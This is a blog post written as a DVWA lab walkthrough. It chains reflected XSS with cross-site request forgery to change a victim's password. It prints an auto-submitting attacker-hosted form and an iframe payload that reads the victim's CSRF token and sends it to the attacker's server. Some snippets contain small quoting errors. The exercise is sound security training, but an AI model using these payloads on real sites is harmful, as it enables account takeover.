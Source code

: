 ```yaml
---
title: Powerful CRSF exploit with iFrames
layout: post
date: "2019-02-10 11:17:20 -0700"
tags:
  - Hacking
  - Web
thumbnail: coverhack.svg
comments: true
extract: Gives an elegant CRSF exploitation
---
```


I was training my hacking skills on the DVWA, for the attacks CRSF ( Cross Site Request Forgery ) and I wanted an elegant way to orchestrate my attack.

## Brief Explanation of CRSF

To make it simple, a CRSF is an attack consisting in making the victim do a request without their consent. To get the idea, it could be a link redirecting to : `http://website_not_protected.com/change_password.php?new_password=hacked.`

Without any protection from the website, a victim clicking on this link would change their password without noticing. But it is not that easy ( fortunately .. ), that change_password.php page require you to be logged. A way for a hacker to counter this would be to insert some code on the website to redirect you to the page without losing your session cookie ( what keeps you logged on the website ). In that perspective, the hacker needs another exploit to insert some code on the website.

## The idea of the iFrames

The iFrames can be used in javascript to open another page, just like this :
{% highlight html %}

<iframe type="hidden" id="iframe" 
src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" 
onload="window.open('//10.6.66.64/index.php"></iframe>
										 
{% endhighlight %}
										 
There are very powerful as an hacking tool, since they can be invisible for the user. Here, the iFrame opens a website we are hosting ( supposing our IP is 10.6.66.64 ). The idea will be to open such an iFrame by exploiting another breach, and calling our own page that will send a form to change the password of the user.

## The attack

Usually, such an attack requires another weakness. One of the most common exploit that can be used for a CRSF is a XSS. We are going to test our attack on the security high of the DVWA. We need first to prepare our page. We need to send a form to `http://10.6.66.42/dvwa/vulnerabilities/csrf/` that requires a user_token. Here is the page we are going to host :

{% highlight html %}

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Exploit</title>
    <meta name="referrer" content="no-referrer">
    <style type="text/css" media="screen"></style>
  </head>

  <body >
     <form method="GET" action="http://10.6.66.42/dvwa/vulnerabilities/csrf/" target="csrf-frame" id="csrf-form">
        <input type="hidden" name="password_new" value="password">

        <input type="hidden" name="password_conf" value="password">
        <input type="hidden" name="user_token" value="<?php echo $_REQUEST['user_moken'];?>">
        <input type="hidden" name="Change" value="Change">

   </form>
   <Script>document.getElementById("csrf-form").submit();</Script>

  </body>
</html>
{% endhighlight %}

The request will pass only if the value of user_token corresponds to the victim token. So the iFrame will need to grab that value, and give it to our page as paramater ( called moken here ). This value can be collected with the following javascript code on the password change page at `http://10.6.66.42/dvwa/vulnerabilities/csrf/`.

{% highlight javascript %}
var moken = this.contentDocument.getElementsByName('user_token')[0].value
{% endhighlight %}

Putting all together, the idea is to create an iFrame that would request `http://10.6.66.42/dvwa/vulnerabilities/csrf/`, collect the token, and send it to our hosted page within the same iFrame. We can exploit the XSS Reflected page to call our iFrame :

{% highlight html %}

<iframe type=hidden" id="iframe" src="http://10.6.66.42/dvwa/vulnerabilities/csrf/" 
onload="
var moken = this.contentDocument.getElementsByName('user_token')[0].value;
window.open('//10.6.66.64/index.php?user_moken='+moken)
"></iframe>
 {% endhighlight %}
